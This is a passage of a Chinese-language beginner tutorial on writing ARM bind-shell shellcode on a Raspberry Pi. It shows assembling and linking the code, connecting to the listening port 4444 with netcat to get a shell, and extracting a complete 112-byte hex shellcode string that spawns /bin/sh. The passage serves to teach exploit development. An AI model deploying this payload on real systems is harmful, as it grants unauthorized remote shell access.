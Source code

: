 
## 六、测试shellcode
将以上汇编代码保存为 bind_shell.s 文件。在使用 ld 命令时，记得加上 -N 标志。之所以这么做，是因为我们使用了多个 strb 操作来修改我们的代码段（.text）。这就要求代码段处于可写状态，我们可以在链接过程中添加 -N 标志完成这个任务。
```
pi@raspberrypi:~/bindshell $ as bind_shell.s -o bind_shell.o && ld -N bind_shell.o -o bind_shell
pi@raspberrypi:~/bindshell $ ./bind_shell
```
接下来，连接到我们设定的那个端口。
```
pi@raspberrypi:~ $ netcat -vv 0.0.0.0 4444
Connection to 0.0.0.0 4444 port [tcp/*] succeeded!
uname -a
Linux raspberrypi 4.4.34+ #3 Thu Dec 1 14:44:23 IST 2016 armv6l GNU/Linux
```
成功了！现在，我们可以将程序转换为十六进制字符串，命令如下：
```
pi@raspberrypi:~/bindshell $ objcopy -O binary bind_shell bind_shell.bin
pi@raspberrypi:~/bindshell $ hexdump -v -e '"\""x" 1/1 "%02x" ""' bind_shell.bin
x01x30x8fxe2x13xffx2fxe1x02x20x01x21x92x1axc8x27x51x37x01xdfx04x1cx12xa1x4ax70x0ax71x4ax71x8ax71xcax71x10x22x01x37x01xdfxc0x46x20x1cx02x21x02x37x01xdfx20x1cx49x1ax92x1ax01x37x01xdfx04x1cx3fx27x20x1cx49x1ax01xdfx20x1cx01x31x01xdfx20x1cx01x31x01xdfx05xa0x49x40x52x40xc2x71x0bx27x01xdfxc0x46x02xffx11x5cx01x01x01x01x2fx62x69x6ex2fx73x68x58
```
我们得到了 bind shellcode ！这段 shellcode 长度为 112 个字节。本文是一个初学者教程，为了简单起见，我们并没有尽量去精简这段 shellcode 。最初的 shellcode 成功后，大家可以使用各种方法来缩减指令数，这样就能缩短 shellcode 篇幅。

希望大家读完本文后能有所收获，可以利用所学知识来编写自己的 shellcode 。如果有任何意见或建议，请随时与我联系。

